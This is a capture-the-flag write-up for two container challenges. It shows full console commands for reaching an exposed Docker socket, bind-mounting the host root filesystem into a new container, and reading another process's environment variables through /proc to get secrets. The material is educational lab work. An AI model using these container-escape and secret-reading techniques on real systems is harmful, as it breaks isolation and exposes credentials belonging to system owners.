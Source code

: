 
# 2010

## Intro

The history of containers in software can be traced 
back to the early days of Unix, in the late 1970s. The
first container-like technology was the chroot system 
call, which allows a process to be isolated from the  
rest of the system by restricting its access to a     
specific directory tree. 

## Challenge 0

> Containers are a great way to isolate different
> processes from each other. There's a flag on the
> host, but from inside the container, you can't
> see it. Neat right?
>
> HINT: try `'--mount type=bind,src=/sys,target=/sys'`

We connect to the attached server and can immediately see a docker image getting loaded:

```console
┌──(user@kali)-[/media/sf_CTFs/google/2010/0]
└─$ socat -,raw,echo=0 tcp:container1.2023-bq.ctfcompetition.com:1337
== proof-of-work: disabled ==
WARNING: Error loading config file: /root/.docker/config.json: open /root/.docker/config.json: permission denied
4693057ce236: Loading layer  7.626MB/7.626MB
884e494c8042: Loading layer  30.68MB/30.68MB
Loaded image: alpine:bqctf
WARNING: Error loading config file: /root/.docker/config.json: open /root/.docker/config.json: permission denied
01d94a7d7194:/#
```

Let's see if we can run docker commands:

```console
01d94a7d7194:/# docker container ls -a
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?
```

There's a problem communicating with the docker daemon, but maybe the socket path is just different
than the default?

```console
01d94a7d7194:/# find / -name docker.sock 2>/dev/null
/tmp/docker.sock
```

We can set an environment variable to change the default path to the docker daemon:

```console
01d94a7d7194:/# export DOCKER_HOST=unix:///tmp/docker.sock
```

Now we can repeat the previous command successfully:

```console
01d94a7d7194:/# docker container ls -a
CONTAINER ID   IMAGE          COMMAND       CREATED          STATUS          PORTS     NAMES
01d94a7d7194   alpine:bqctf   "/bin/bash"   54 seconds ago   Up 54 seconds             magical_engelbart
```

The hint shows us how to map a folder between the host and the guest, let's use a similar syntax
to map the root folder:

```console
01d94a7d7194:/# docker run -it --mount type=bind,src=/sys,target=/sys --mount type=bind,src=/,target=/Root alpine:bqctf
/ # ls /Root
bin     etc     lib     libx32  opt     run     sys     var
boot    flag    lib32   media   proc    sbin    tmp
dev     home    lib64   mnt     root    srv     usr
```

There's the flag.

```console
/ # cat /Root/flag
FLAG{YourSocksAreUntied}
```

## Challenge 1

> Sharing is caring, and sometimes containers can share
> things with the host. But hopefully not the flag.

Let's connect to the provided server:

```console
┌──(user@kali)-[/media/sf_CTFs/google/2010/1]
└─$ socat -,raw,echo=0 tcp:container2.2023-bq.ctfcompetition.com:1337
== proof-of-work: disabled ==
WARNING: Error loading config file: /root/.docker/config.json: open /root/.docker/config.json: permission denied
4693057ce236: Loading layer  7.626MB/7.626MB
884e494c8042: Loading layer  30.68MB/30.68MB
Loaded image: alpine:bqctf
WARNING: Error loading config file: /root/.docker/config.json: open /root/.docker/config.json: permission denied
```

Do we have a docker daemon?

```console
58db94dcc552:/# find / -name docker.sock 2>/dev/null
58db94dcc552:/#
```

No, we don't. Now what? Let's check the running processes:

```console
58db94dcc552:/# ps
PID   USER     TIME  COMMAND
    1 root      0:00 /bin/bash /home/user/start.sh
    2 root      0:00 containerd --root /tmp/containerd_root --state /tmp/contai
    4 root      0:00 dockerd -H unix:///tmp/docker.sock --containerd=/tmp/conta
   39 root      1:07 /bin/bash /home/user/flag.sh
   50 root      0:00 docker --log-level fatal -H unix:///tmp/docker.sock run --
   64 root      0:00 /usr/bin/containerd-shim-runc-v2 -namespace moby -id 58db9
   83 root      0:00 /bin/bash
   99 root      0:00 ps
```

Process 39 seems interesting, let's take a look at it via `/proc`:

```console
58db94dcc552:/# cat /proc/39/environ && echo
FLAG=FLAG{DontPutSecretsInEnvironmentVariables}PWD=/home/userSHLVL=0_=/bin/bash
58db94dcc552:/#
```

The flag: `FLAG{DontPutSecretsInEnvironmentVariables}`